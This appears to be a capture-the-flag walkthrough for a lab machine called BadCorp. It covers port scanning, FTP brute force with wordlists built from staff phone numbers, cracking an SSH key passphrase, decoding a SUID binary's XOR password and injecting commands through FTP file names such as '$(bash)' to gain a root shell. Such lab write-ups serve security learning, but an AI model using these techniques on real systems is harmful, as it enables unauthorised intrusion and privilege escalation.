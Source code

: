 # BadCorp

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.160.133
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-13 13:28 +08
Nmap scan report for 192.168.160.133
Host is up (0.17s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

### Web Enumeration

The website was a corporate website:

<figure><img src="../../../.gitbook/assets/image (143).png" alt=""><figcaption></figcaption></figure>

First thing I noticed was the **phone numbers**. Normally machines, I see numbers like +12 345 678. This was the first box I saw that included unique phone numbers. I took a look at their team:

<figure><img src="../../../.gitbook/assets/image (151).png" alt=""><figcaption></figcaption></figure>

Again, phone numbers are unique here. This made me think about every little detail in the website, including the names of the users.&#x20;

There wasn't much more on the website, and we were just left with FTP and SSH.

### FTP Brute Force --> SSH Key

I took a look at this tweet regarding BadCorp:

{% embed url="https://twitter.com/offsectraining/status/1370149035059859459?lang=en" %}

To me, the 'insignificant information' was probably from the website. As such, I constructed wordlists based on the names of users and their phone numbers like this.

```
$ python2 username.py -n 'david williams' > user_word
$ cat pass_word                            
+23-34512435
2334512435
34512435
```

I then brute forced the FTP using `hydra` for each user and phone number, and eventually found one set of credentials that worked:

```
$ hydra -L user_word -P pass_word ftp://192.168.160.133
[21][ftp] host: 192.168.160.133   login: hoswald   password: 34566550
```

We can then login to FTP:

```
$ ftp 192.168.160.133                         
Connected to 192.168.160.133.
220---------- Welcome to Pure-FTPd [privsep] [TLS] ----------
220-You are user number 6 of 50 allowed.
220-Local time is now 00:40. Server port: 21.
220-This is a private system - No anonymous login
220 You will be disconnected after 15 minutes of inactivity.
Name (192.168.160.133:kali): hoswald 
331 User hoswald OK. Password required
Password: 
230 OK. Current directory is /
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls
200 PORT command successful
150 Connecting to port 50225
-rwxrwxr--    1 0          0                1766 Feb 24  2021 id_rsa
226-Options: -l 
226 1 matches total
```

This file was password encrypted:

```
$ cat id_rsa                   
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,689C848171117DE40F9DDDC1059582EC
```

We can crack this using `ssh2john.py` and `john`:

```
$ ssh2john id_rsa > ssh.john
$ john --wordlist=/usr/share/wordlists/rockyou.txt ssh.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
developer        (id_rsa)     
1g 0:00:00:00 DONE (2023-07-13 13:42) 25.00g/s 3754Kp/s 3754Kc/s 3754KC/s dewthedew..derbeder
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Backup SUID --> Reverse Engineering

I searched for SUID binaries within the machine and found one that stood out:

{% code overflow="wrap" %}
```
hoswald@badcorp:~$ find / -perm -u=s -type f  2>/dev/null
/usr/local/bin/backup
hoswald@badcorp:~$ file /usr/local/bin/backup
/usr/local/bin/backup: setuid ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=bef7543cc2b4b67931b5b549440ba5d76270edac, not stripped
hoswald@badcorp:~$ /usr/local/bin/backup
USAGE: backup <password> 
hoswald@badcorp:~$ /usr/local/bin/backup test
Wrong Password !!!
```
{% endcode %}

I didn't recognise this `backup` binary, so I downloaded it back to my machine and opened it up in `ghidra`.&#x20;

### Ghidra + Ltrace --> Command Injection

I first ran the binary with `ltrace`:

```
$ ltrace ./backup id
setuid(0)                                                = -1
strstr("id", "..")                                       = nil
strstr("id", "/")                                        = nil
strstr("id", "|")                                        = nil
strstr("id", "<")                                        = nil
strstr("id", ">")                                        = nil
strstr("id", "&")                                        = nil
strstr("id", " ")                                        = nil
strstr("id", "'")                                        = nil
strstr("id", "-")                                        = nil
strstr("id", "%")                                        = nil
strncpy(0x7fff99859cae, "id", 9)                         = 0x7fff99859cae
strcmp("eh\f\f\f\f\f\f", "|8\177\177{<~:")               = -23
puts("Wrong Password !!!"Wrong Password !!!
)                               = 19
+++ exited (status 0) +++
```

So it first makes us `root` and then checks for characters present. Afterwards, a basic `strcmp` is used to verify the password. The check for special characters seems to be a check for the bad characters:

```
$ ltrace ./backup '|8\177\177{<~:'
setuid(0)                                                = -1
strstr("|8\\177\\177{<~:", "..")                         = nil
strstr("|8\\177\\177{<~:", "/")                          = nil
strstr("|8\\177\\177{<~:", "|")                          = "|8\\177\\177{<~:"
puts("Bad character found !"Bad character found !
)                            = 22
strncpy(0x7ffe3e91560e, "|8\\177\\17", 9)                = 0x7ffe3e91560e
strcmp("p4P=;;P=7", "|8\177\177{<~:")                    = -12
puts("Wrong Password !!!"Wrong Password !!!
)                               = 19
+++ exited (status 0) +++
```

The bad characters don't include '$' and '()', opening up the possibility of command injection. Moving to `ghidra`, this binary prompts for a password before running the `check()` function to see if the password is correct, and then `copy()` if it is right:

<figure><img src="../../../.gitbook/assets/image (19) (10).png" alt=""><figcaption></figcaption></figure>

The `copy()` function takes an encrypted password and XOR's it with `0xc`:

<figure><img src="../../../.gitbook/assets/image (18) (3).png" alt=""><figcaption></figcaption></figure>

We can first grab the `pw` global variable from the binary:

<figure><img src="../../../.gitbook/assets/image (116) (1).png" alt=""><figcaption></figcaption></figure>

And then we can create a script in Python to decrypt this.&#x20;

```python
#!/usr/bin/python3
passwd = ''
cipher = bytes([0x3a, 0x7e, 0x3c, 0x7b, 0x7f, 0x7f, 0x38, 0x7c, 0x72])
b = bytes([0xc])
for x in reversed(cipher):
	ans = (x^0xc)
	passwd += chr(ans)

print (passwd)

$ python3 decrypt.py       
~p4ssw0r6
```

The first `~` character is not needed. We can then run the binary with the password:

```
hoswald@badcorp:~$ /usr/local/bin/backup p4ssw0r6
Create destination directory
FILE  id_rsa
ALL FILE COPYED IN /var/logs/hoswald/
```

We can move on to the `copy()` function now:

<figure><img src="../../../.gitbook/assets/image (101) (4).png" alt=""><figcaption></figcaption></figure>

All the binaries use their full path values, so no path hijacks here. However, this seems to use directories within `/var/logs` and `/home/FTP`. I was already thinking of command injection using subshells, and it seems that this is the exploit needed.&#x20;

We can use FTP to a few malicious files since we don't have write access over those directories:

```
ftp> put $(id)
local: $(id) remote: $(id)
229 Extended Passive mode OK (|||65519|)
150 Accepted data connection
     0        0.00 KiB/s 
226 File successfully transferred
```

This works!

<figure><img src="../../../.gitbook/assets/image (23) (11).png" alt=""><figcaption></figcaption></figure>

I then placed a file named `$(bash)` within the FTP directory, and it gave me a shell:

<figure><img src="../../../.gitbook/assets/image (124).png" alt=""><figcaption></figcaption></figure>

This shell was pretty limited and couldn't give me any output. However, we can simply run `chmod u+s /bin/bash`. In another shell, we can then get a proper `root` shell easily:

![](<../../../.gitbook/assets/image (20) (4).png>)
